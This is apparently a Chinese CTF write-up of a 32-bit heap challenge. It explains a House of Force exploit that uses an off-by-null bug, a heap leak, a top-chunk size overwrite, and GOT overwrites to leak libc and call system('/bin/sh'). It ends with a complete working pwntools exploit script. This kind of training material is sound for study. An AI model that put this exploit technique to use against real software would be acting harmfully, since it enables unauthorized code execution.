



House of Force例题
<!-- more -->

32位堆题，菜单，NO PIE, Partial RELRO。

House of Force

### 主要漏洞点

在get_input函数中有个off by null的漏洞，如果刚好写入size大小的内容则会触发。



### leak heapbase

由get_input导致的问题，在input_name函数可以用来leak heapbase。对s写满0x40，则其\x00会溢出到v2的位置，在执行v2=malloc(0x40)后，这个\x00会被覆盖，因此在后面的strcpy(v2,s)的时候会将v2的chunk地址一并copy到chunk中。在后续的welcome中会输出出来。



### 改写top chunk size

在org_host函数中也有一样的问题，并且更加严重。对s写满0x40，则其\x00会溢出到v2的位置，在执行v2=malloc(0x40)后，这个\x00会被覆盖。并且由于v2后面紧接着就是v3，而v2是写满4byte的一个地址，因此在后面的strcpy(v2,s)的时候会将**s的内容+v2的chunk地址+v3中的内容**一并copy到chunk中，而chunk大小只有0x44，因此会溢出到next chunk的size字段，而**下一个chunk就是top chunk，由此可以改写top chunk size**。



### 分配到chunk_list，获取任意写

在改写了top chunk size之后，我们就可以利用House of Force实现**任意地址分配**了，之后我们考虑怎么利用这个任意地址分配。

edit函数的功能是对chunk的content进行修改，其中取chunk是从bss段的chunk_list中按照id取出的，因此如果能够**改写chunk_list中的内容**，那么就可以实现**任意写**。

要分配到chunk_list(0x804b120)，可以分配fake chunk(0x804b118)。我们要计算top chunk和fake chunk之间的偏移。top chunk的地址可以通过heapbase+offset计算得到。top chunk和fake chunk之间的偏移是 **-(top chunk - fake chunk)或0x10804b118-top chunk** 。malloc了这个大小的chunk后，下次malloc就能malloc到fake chunk了。

### leak libc

本题中没有edit函数，没办法输出。但是我们有任意写，可以**改写其他函数的GOT表项来调用函数输出**。

此处可以改写delete功能中free函数的GOT表项为puts，再将chunk_list中对应的位置改为atoi的GOT表项的地址，就可以得到libcbase。

### get shell

get shell也是采用修改GOT表项的方法，将atoi的GOT表项修改为system，输入/bin/sh\x00即可get shell。需要注意的是free了的id对应的chunk_list[id]和length_list[id]都会清0，虽然chunk_list[id]可以在我们申请到的fake chunk中修改，但length_list我们没有申请到，因此不能直接edit。


exp:

```python
from pwn import*
context(log_level='debug',os='linux',arch='i386')
elf=ELF("./pwn2")
libc=ELF("./libc.so.6")
p=process("./pwn2")

def add(length,content):
	p.recvuntil('--->>\n')
	p.sendline('1')
	p.recvuntil('Input the length of the note content:\n')
	p.sendline(str(length))
	p.recvuntil('Input the content:\n')
	p.sendline(str(content))

def edit(Id,content):
	p.recvuntil('--->>\n')
	p.sendline('3')
	p.recvuntil('Input the id:\n')
	p.sendline(str(Id))
	p.recvuntil('Input the new content:\n')
	p.sendline(str(content))

def free(Id):
	p.recvuntil('--->>\n')
	p.sendline('4')
	p.recvuntil('Input the id:\n')
	p.sendline(str(Id))


def debug():
	gdb.attach(p,'x/8wx 0x804b120')
	pause()

#leak heap base
p.recvuntil("Input your name:\n")
p.send('a'*0x40)
p.recvuntil('a'*0x40)
heapbase=u32(p.recvuntil('!')[:-1].ljust(4,'\x00'))-0x8
print("[*]heapbase: {:}".format(hex(heapbase)))

#overwrite top chunk size
p.recvuntil('Org:\n')
p.send('a'*0x40)
p.recvuntil('Host:\n')#overwrite
payload=p32(0xffffffff)+'a'*0x3c
p.send(payload)

#overwrite chunk_list
chunk_list=0x0804B120
fake_chunk=0x0804B118
top_chunk=heapbase+0xf8

add(0x10,'aaaa')
add(-(top_chunk-fake_chunk),'bbbb')
add(0x30,'cccc')#chunk_list[2]->chunk_list

#leak libc
edit(2,p32(elf.got['free'])+p32(elf.got['atoi'])+p32(elf.got['atoi']))
edit(0,p32(elf.sym['puts']))#overwrite free@got to puts@plt 

free(1)

atoi_addr=u32(p.recv(4))
libcbase=atoi_addr-libc.sym['atoi']
print("[*]libcbase: {:}".format(hex(libcbase)))


#get shell
#overwrite atoi@got to system
print(hex(libcbase+libc.sym['system']))
#debug()
edit(2,p32(libcbase+libc.sym['system']))


p.sendline('/bin/sh\x00')

p.interactive()
```